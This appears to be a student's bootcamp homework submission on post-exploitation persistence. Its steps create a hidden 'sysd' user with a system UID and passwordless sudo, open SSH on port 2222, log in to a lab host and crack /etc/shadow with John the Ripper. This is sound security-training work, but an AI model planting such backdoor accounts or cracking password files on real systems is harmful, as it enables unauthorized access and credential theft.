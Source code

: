 ## **Rachel Murphy**

April 3, 2021


## **Week 6 Homework Submission File: Advanced Bash - Owning the System**

**Step 1: Shadow People**

1. Create a secret user named sysd. Make sure this user doesn't have a home folder created: 

```sudo adduser --no-create-home sysd```

2. Give your secret user a password: hello

    *   Give your secret user a system UID &lt; 1000: ```usermod -u 555 sysd```
     
3. Give your secret user the same GID: ```groupmod -g 555 sysd```

4. Give your secret user full sudo access without the need for a password: ```visudo```

![image](https://user-images.githubusercontent.com/76081641/119245160-a8d69880-bb3c-11eb-9063-4f1e6f8d35e2.png)


5. Test that sudo access works without your password: 

![image](https://user-images.githubusercontent.com/76081641/119246439-2bfcec00-bb47-11eb-91d4-f1e50c9c8c5e.png)


**Step 2: Smooth Sailing**

1. Edit the sshd_config file: ```nano sshd_config```
2. Add port 2222 in the ```sshd_config``` file.

![image](https://user-images.githubusercontent.com/76081641/119246450-4afb7e00-bb47-11eb-932a-539c4c206fa4.png)

**Step 3: Testing Your Configuration Update**

1. Restart the SSH service: ```systemctl restart sshd```

2. Exit the root account: ```exit```

3. SSH to the target machine using your sysd account and port 2222: 

```ssh sysd@192.168.6.105 -p 2222```


4. Use sudo to switch to the root user: ```sudo su```


**Step 4: Crack All the Passwords**


1. SSH back to the system using your sysd account and port 2222: 

```ssh sysd@192.168.6.105 -p 2222```

2. Escalate your privileges to the root user. Use John to crack the entire /etc/shadow file: 

  ``` john /etc/shadow```
  
![image](https://user-images.githubusercontent.com/76081641/119246475-8bf39280-bb47-11eb-922c-5aa117040942.png)

